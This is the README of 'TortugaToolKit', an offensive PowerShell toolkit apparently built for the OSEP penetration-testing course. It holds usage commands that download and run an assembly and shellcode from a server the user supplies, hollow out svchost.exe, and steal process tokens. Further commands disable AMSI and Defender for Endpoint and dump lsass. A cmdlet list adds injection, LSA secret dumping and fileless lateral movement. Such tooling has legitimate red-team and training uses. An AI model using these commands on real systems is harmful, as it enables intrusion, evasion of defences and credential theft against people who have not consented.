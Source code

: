 # TortugaToolKit

Written during OSEP course, for learning purposes. Used heavily during the exam with much success. Thanks to all the open source projects out there that i was able to use and learn from.

## Examples

Load it

```powershell
$a=[System.Reflection.Assembly]::Load($(IWR -Uri http://yourserver/tortugatoolkit.dll -UseBasicParsing).Content);
Import-Module -Assembly $a

Untested but should work. maybe.
$test=((IWR -Uri 'http://yourserver/turtletoolkit.dll' -UseBasicParsing).RawContent);
$len=$test.length;$test.SubString($len-($len -198));$a=[System.Reflection.Assembly]::Load($test);
Import-Module -Assembly $a

```

Example of remotely loading and encrypting shellcode, then performing proc hollow with it
```powershell
$r = Invoke-EncryptShellcode -shellcode $(IWR -Uri 'http://ip/shellcode.bin' -usebasicparsing).Content
Invoke-ProcessHollow -procName 'svchost.exe' -k $r.encryptedKey -encsh $r.encryptedshellcode -ivk $.initVector
```
Example of performing ping sweep then admin check on subnet
```powershell
$s = Invoke-PingSweep -s "172.16.23.0";
foreach($h in $s){Invoke-AdminCheck -t $h}

Invoke-AdminCheck -h $(Invoke-PingSweep -s "172.16.75.0")
```
Example of impersonation via process token then running SharpView (or sharphound) as that domain user
```powershell
Invoke-TokenStealer -procH $false

Get-CurrentIdentity

Invoke-TurtleView -c "Get-DomainComputers";
Invoke-TurtleHound
```
Example of disabling amsi then disabling defender for endpoint and performing lsass process dump
```powershell
Disable-AyEmEsEye -Verbose
Disable-DefenderForEndpoint
Invoke-TurtleDump
Enable-DefenderForEndpint

```
Example of loading and executing a c# assembly
```powershell
Invoke-AssemblyLoader -e $false -l $false -path "http://ip/payload" -name namespace -clss targetclass -run method

```

## List of cmdlets

```
Disable-AyEmEsEye
Disable-DefenderForEndpoint
Disable-Etw
Enable-DefenderForEndpoint
Enable-Privileges
Get-ActiveDirectoryComputers
Get-ActiveDirectoryForests
Get-ActiveDirectoryGroupMembership
Get-ActiveDirectoryGroups
Get-ActiveDirectoryUsers
Get-CurrentIdentity
Get-MsSQLQuery
Get-SQLInfo
Get-System
Get-TrustedInstaller
Invoke-AdminCheck
Invoke-AssemblyLoader
Invoke-ClassicInjection
Invoke-FileLessLateralMovement
Invoke-LsaSecretsDmp
Invoke-MsSQLAssembly
Invoke-MsSQLShell
Invoke-PingSweep
Invoke-ProcessHollow
Invoke-ShellcodeEncryption
Invoke-TokenStealer
Invoke-TurtleDump
Invoke-TurtleHound
Invoke-TurtleUp
Invoke-TurtleView
Undo-Impersonation

```

## Credits

* https://github.com/GhostPack/SharpUp
* https://github.com/tevora-threat/SharpView
* https://github.com/BloodHoundAD/SharpHound3
* https://devblogs.microsoft.com/scripting/use-powershell-to-decrypt-lsa-secrets-from-the-registry/
* https://github.com/clymb3r/PowerShell/blob/master/Invoke-TokenManipulation/Invoke-TokenManipulation.ps1
* https://www.exploit-db.com/exploits/13054
* https://github.com/latortuga71/latortugaDump
* https://github.com/b4rtik/ATPMiniDump
* https://www.matteomalvica.com/blog/2019/12/02/win-defender-atp-cred-bypass/
* https://github.com/cobbr/SharpSploit
* https://medium.com/csis-techblog/silencing-microsoft-defender-for-endpoint-using-firewall-rules-3839a8bf8d18
* https://0x00-0x00.github.io/research/2018/10/21/Windows-API-And-Impersonation-Part-2.html
* https://github.com/latortuga71/DisableDefenderForEndpointPOC
* https://institute.sektor7.net/
* https://www.mike-gualtieri.com/posts/red-team-tradecraft-loading-encrypted-c-sharp-assemblies-in-memory
* https://dotnetninja.net/2020/03/creating-a-powershell-cmdlet-in-c/
* https://king-sabri.net/how-to-compile-embed-and-use-sharpsploit/
* https://www.tiraniddo.dev/2017/08/the-art-of-becoming-trustedinstaller.html
* https://www.codeproject.com/articles/18102/howto-almost-everything-in-active-directory-via-c
* https://www.offensive-security.com/pen300-osep/


## Unlicense

```
This is free and unencumbered software released into the public domain.


Anyone is free to copy, modify, publish, use, compile, sell, or
distribute this software, either in source code form or as a compiled
binary, for any purpose, commercial or non-commercial, and by any
means.


In jurisdictions that recognize copyright laws, the author or authors
of this software dedicate any and all copyright interest in the
software to the public domain. We make this dedication for the benefit
of the public at large and to the detriment of our heirs and
successors. We intend this dedication to be an overt act of
relinquishment in perpetuity of all present and future rights to this
software under copyright law.


THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND,
EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF
MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT.
IN NO EVENT SHALL THE AUTHORS BE LIABLE FOR ANY CLAIM, DAMAGES OR
OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE,
ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR
OTHER DEALINGS IN THE SOFTWARE.

```

For more information, please refer to <http://unlicense.org/>
